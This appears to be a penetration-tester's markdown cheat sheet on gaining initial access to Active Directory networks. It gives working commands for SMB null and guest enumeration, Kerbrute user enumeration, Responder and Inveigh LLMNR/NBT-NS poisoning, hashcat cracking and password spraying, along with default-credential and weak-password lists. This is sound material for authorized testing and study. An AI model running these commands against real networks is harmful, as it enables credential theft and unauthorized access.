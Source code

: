 # Initial Access

After having access (eventually gained through pivoting after compromising a domain-joined host) to the network where the AD environment resides, you should enumerate all domain-joined hosts and their role in the AD environment. The main objective is to find the Domain Controller (DC) in order to move forward with the next enumeration steps.

To find hosts inside the AD environment:

* Ping sweep from linux: `fping -asgq 172.16.5.0/23`
* Scan the internal network using nmap

After that, there are several options to move forward:

1. Whenever possible, enumerate the SMB service and shares, checking for `NULL`, `guest` and SMB Common Credentials authentication
2. Enumerate existing users with kerbrute
3. If possible, enumerate password policies (requires valid credentials)
4. Leverage password spraying using Common AD Passwords
5. Leverage Responder (from Linux) or Inveigh (from Windows) to perform LLMNR/NTB-NS Poisoning

### **SMB NULL Session, Guest and Common Credentials Authentication**

* **Guest Authentication:** `enum4linux -a -u "guest" -p "" <DC IP>`
* **Guest Authentication:** `smbmap -u "guest" -p "" -P 445 -H <DC IP>`
* **Guest Authentication:** `smbclient -U '%' -L //<DC IP> && smbclient -U 'guest%' -L //`
* **NULL Session:** `smbclient -N -L //<FQDN/IP>`
* **NULL Session:** `crackmapexec smb <FQDN/IP> --shares -u '' -p ''`
* **NULL Session:** `smbmap -u "" -p "" -P 445 -H <DC IP>`
* **NULL Session:** `enum4linux -a -u "" -p "" <DC IP>`
* Check for other common SMB credentials, as listed below

### **Common SMB Credentials**

Source: [https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb#possible-credentials](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb#possible-credentials)

| Common Username(s)   | Common Password                         |
| -------------------- | --------------------------------------- |
| (blank)              | (blank)                                 |
| guest                | (blank)                                 |
| Administrator, admin | (blank), password, administrator, admin |
| arcserve             | arcserve, backup                        |
| tivoli, tmersrvd     | tivoli, tmersrvd, admin                 |
| backupexec, backup   | backupexec, backup, arcada              |
| test, lab, demo      | password, test, lab, demo               |

***

### **Active Directory Users Enumeration**

{% hint style="warning" %}
Before enumerating users, it's recommended to understand the naming convention in use. Many targets might be using the conventions found in these common wordlists for user enumeration: [jsmith.txt](https://github.com/insidetrust/statistically-likely-usernames/blob/master/jsmith.txt) and [jsmith2.txt](https://github.com/insidetrust/statistically-likely-usernames/blob/master/jsmith2.txt) user lists from [Insidetrust](https://github.com/insidetrust/statistically-likely-usernames/tree/master).
{% endhint %}

**Enumerate users with Kerbrute:**

* Get Kerbrute's precompiled binary: [https://github.com/ropnop/kerbrute/releases/tag/v1.0.3](https://github.com/ropnop/kerbrute/releases/tag/v1.0.3)
* Enumerate Users: `kerbrute userenum -d DOMAINNAME.EXAMPLE --dc 172.16.5.5 jsmith.txt -o valid_ad_users`

**Enumerate users with WindapSearch:**

* Get WindapSearch: `git clone https://github.com/ropnop/windapsearch.git`
* Enumerate Users: `./windapsearch.py --dc-ip 172.16.5.5 -u "" -U`

**Alternatives:**

* `enum4linux -U 172.16.5.5 | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]`
* `rpcclient -U "" -N 172.16.5.5` followed by `enumdomuser`
* `crackmapexec smb 172.16.5.5 --users`

***

### **LLMNR/NTB-NS Poisoning**

* LLMNR/NTB-NS poisoning refers to a Man in the Middle(MITM) attack on Link-Local Multicast Name Resolution (LLMNR) and NetBIOS Name Service (NBT-NS) broadcasts.
* LLMNR and NBT-NS are Microsoft Windows components that serve as **alternate methods of host identification that can be used when DNS fails**.
* If a machine attempts to resolve a host, but DNS resolution fails, typically, **the machine will try to ask all other machines on the local network for the correct host address via LLMNR**.
* If LLMNR fails, then NBT-NS will be used

> Basically, the idea is that when LLMNR/NBT-NS are used for name resolution, ANY host on the network can reply. This is where we come in with Responder to poison these requests.\
> This poisoning effort is done to get the victims to communicate with our system by pretending that our rogue system knows the location of the requested host.\
> \
> We can spoof an authoritative name resolution source (a host that's supposed to belong in the network segment) in the broadcast domain by responding to LLMNR and NBT-NS traffic as if they have an answer for the requesting host.\
> If the requested host requires name resolution or authentication actions, we can capture the NetNTLM hash and subject it to an offline brute force attack in an attempt to retrieve the cleartext password.\
> \
> The captured authentication request can also be relayed to access another host or used against a different protocol (such as LDAP) on the same host.\
> LLMNR/NBNS spoofing combined with a lack of SMB signing can often lead to administrative access on hosts within a domain.

**LLMNR/NTB-NS Poisoning from Linux with Responder:**

1. To start responder: `sudo responder -I ens224` where ens224 is the name of the network interface connected to the internal network where the AD environment resides
2. Results will be printed on screen while running, and saved inside the `/usr/share/responder/logs` directory
3. To crack an NTLMv2 hash with hashcat: `hashcat -m 5600 hashfile /usr/share/wordlists/rockyou.txt`

**LLMNR/NTB-NS Poisoning from Windows with Inveigh:**

1. Get Inveigh: `git clone https://github.com/Kevin-Robertson/Inveigh`
2. Use the following **Powershell** commands:
   * `Import-Module .\Inveigh.ps1`
   * `Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y`
3. Alternatively, use the compiled version of Inveigh with `.\Inveigh.exe`

***

### **Password Policies Enumeration**

> Before performing password spraying, it's a good idea to enumerate the password policy in order to avoid locking out the target user's account.\
> This is also useful to find out the minimum password complexity requirements.

**Enumerate the Password Policy from Linux:**

1. CME with credentials: crackmapexec smb 172.16.5.5 -u validuser -p validpass --pass-pol
2. RPCClient with NULL Session: `rpcclient -U "" -N 172.16.5.5` followed by `querydominfo`
3. Enum4Linux: `enum4linux -P 172.16.5.5`
4. Enum4linux-ng with output to YAML and JSON: `enum4linux-ng -P 172.16.5.5 -oA outputfile`

**Enumerate the Password Policy from Windows:**

1. `net accounts`
2. Powerview: `Import-Module .\PowerView.ps1` followed by `Get-DomainPolicy`

***

### **Password Spraying**

> This attack involves attempting to log into an exposed service using one common password and a longer list of usernames or email addresses.\
> \
> The usernames and emails may have been gathered during the OSINT phase of the penetration test or during our initial enumeration attempts.

**Perform Password Spraying from Linux:**

1. Bash One-Liner using rpcclient:\
   `for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done`
2. Using Kerbrute:\
   `kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1`
3. Using CrackMapExec:\
   `sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +`

**Perform Password Spraying from Windows:**

1. Using [CleverSpray](https://github.com/wavestone-cdt/Invoke-CleverSpray) (recommended):
   1. `Import-Module .\Invoke-CleverSpray.ps1`
   2. `Invoke-CleverSpray -Password "Password-To-Spray"`
2. Using [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray):
   1. `Import-Module .\DomainPasswordSpray.ps1`
   2. `Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue`

### **Common AD Users' Passwords**

* Welcome1, Welcome123
* Password123, Passw0rd, password1, Password1
* 123456, 12345678, qwerty, abc123, iloveyou,
